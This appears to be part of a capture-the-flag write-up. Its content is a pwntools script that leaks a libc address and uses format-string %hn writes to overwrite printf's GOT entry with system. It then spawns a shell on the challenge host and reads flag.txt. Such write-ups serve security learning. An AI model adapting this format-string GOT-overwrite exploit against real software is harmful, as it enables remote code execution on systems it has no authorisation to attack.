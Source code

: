 
### the actual exploit

So, what we're doing here is overwriting the GOT value for `printf` to actually be `system`.  After that we can just type `/bin/sh` into the input and it'll call `system` instead of `printf`.  

```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

elf = ELF("./chall")
libc = ELF("./libc.so.6")

rop = ROP(elf)

context.binary = elf
context.terminal = ['termite','-e']
def conn():
    if args.LOCAL:
        libc = ELF("/usr/lib32/libc.so.6")
        return (libc, elf.process())
    else:
        libc = ELF("./libc.so.6")
        return (libc, remote("ctf.cybr.club",2005))


def main():
    (libc, p) = conn()

    p.recvline()
    puts_address = int(p.recvline().decode('ascii').split(": ")[1],16)
    libc.address = puts_address - libc.sym['puts']
    lower = (libc.sym['system'] - 8) & 0xffff
    upper = libc.sym['system'] >> 16

    payload = p32(elf.got['printf']) + p32(elf.got['printf']+2) # add the addresses for both halves of printf to stack
    payload += "%{}x".format(lower).encode('ascii') + "%{}$hn".format(4).encode('ascii') # write to the first half, the %x is justified by the appropriate number to be equal to the lower half of system's address
    payload += "%{}x".format(upper - lower - 8).encode('ascii') + "%{}$hn".format(5).encode('ascii') # write to the upper half, the %x is justified in a similar way but we also need to subtract the lower value because that is still taken into account on the second %n.  If lower were larger than upper we could do the exact same thing in reverse
    
    p.recvuntil("Hey!  I'll repeat anything you say! \n")
    p.sendline(payload)
    p.recvuntil("Hey!  I'll repeat anything you say! \n")
    p.sendline("/bin/sh/")

    p.sendline("cat flag.txt;exit")
    print(re.search("(FLAG{.*})",p.recvall(timeout=.1).decode()).group(1))

    p.close()


if __name__ == "__main__":
    main()
```
